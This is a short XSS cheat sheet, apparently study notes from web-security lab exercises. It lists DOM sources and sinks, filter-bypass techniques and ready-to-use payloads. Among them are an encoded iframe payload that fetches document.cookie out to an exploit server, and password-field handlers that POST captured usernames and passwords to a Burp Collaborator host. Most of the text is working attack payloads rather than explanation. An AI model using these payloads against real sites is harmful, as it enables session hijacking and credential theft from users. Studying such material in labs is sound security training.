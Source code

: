 # XSS

[location.search](http://location.search), addEventListener() or document.write, location.href, lastViewedProduct cookie → DOM XSS

Look for areas where the inputs are being used by JavaScript tags

Remember that parameters in the body can also be sent as URL parameters, this might allow for modification of the DOM. (e.g. Location parameter in URL).

`<img src=1 oNeRrOr=alert`1`>`

### POC development

pay attention to the quotes and encoding

" > < s > 

XSS payload and encoding tips:

- <xss id=x tabindex=1 autofocus onfocus=alert(document.cookie)></xss>
- Injecting code using two "</script>" tags
    - • </script><script>alert(1)</script>
- Using HTML-encoding, such as '), JavaScript template literals (${123})
- If "<>" is HTML-encoded, inject attributes using
    - " autofocus onfocus=alert(document.domain) x="
- Injecting a script into an iframe page
- Forcibly redirecting the user by changing the location.href
- If "<>" is being replaced with JavaScript, sandwich them with "<>"
    - The correct function to use is "replaceAll" in Burp
- Using SVG:
    - <svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
- Stealing cookies:
    - `<iframe src="https://LAB_ID/?SearchTerm=rn0sswb5%22%7D%3Bfetch%28%60https%3A%2F%2Fexploit-0ae4001e03bfe98dc00152e7013500a8%5Cu%7B2e%7Dweb-security-academy%5Cu%7B2e%7Dnet%2F%3F%24%7Bdocument%5B%22cookie%22%5D%7D%60%2C%7Bmode%3A%27no-cors%27%2Ccredentials%3A%27include%27%7D%29%2F%2F"></iframe>`
- Stealing autocomplete passwords
    - `<input type=password name=password onchange=" if(this.value.length) fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{method: 'POST',mode: 'no-cors',body: username.value+':'+this.value,credentials: 'include'});">`
    - `<input name=username id=username>
    <input type=password name=password onchange="if(this.value.length)fetch('https://zy1cmwt0q8o3vtlolrhvx9nfn6t7hw.burpcollaborator.net',{
      method:'POST',
      mode: 'no-cors',
      body:username.value+':'+this.value
    });">`
- Waiting for the DOM to load before executing code
    - `window.onload = (e) => {/*  何か */};`
- If the "href" attribute is blocked on an "a" tag, use "<a href ping="***">" to send a POST request to any URL
- If there is a form on the page, it may be accepting values from the query parameters
- If the user needs to select a specific element and can be redirected to any URL, the following code may be effective:
    - <script>
    location = "target.com?x=<input onfocus=alert(1) id=x>#x"
    </script>
